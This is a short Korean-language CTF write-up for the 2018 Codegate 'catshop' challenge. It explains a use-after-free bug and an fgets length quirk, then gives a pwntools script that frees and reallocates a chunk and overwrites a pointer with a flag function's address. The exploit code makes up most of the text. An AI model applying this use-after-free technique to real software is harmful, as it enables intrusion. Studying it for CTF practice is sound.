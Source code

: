 ```yaml
---
layout: post
title: "2018 Codegate catshop"
date: 2019-11-13
ctf: Codegate CTF
---
```


UAF 취약점이 발생한다. 

fget는 입력 받을 개수 -1 만큼 입력받고 마지막 문자를 NULL로 만들어서 4bytes 주소값을 넣으려면 5만큼 넣어줘야한다. 

```python
from pwn import *
 
p = process('./catshop')
e = ELF('./catshop')
 
flag = 0x080488b6
 
p.sendafter(':',p32(1)) # malloc
sleep(0.1)
p.sendafter(':',p32(2)) # free
sleep(0.1)
p.sendafter(':',p32(4)) # malloc
sleep(0.1)
p.sendafter(':',p32(5)) # length
sleep(0.1)
p.sendlineafter(':',p32(flag)) # fget -> \x00
sleep(0.1)
p.sendlineafter(':',p32(3)) # call
 
p.interactive()
```


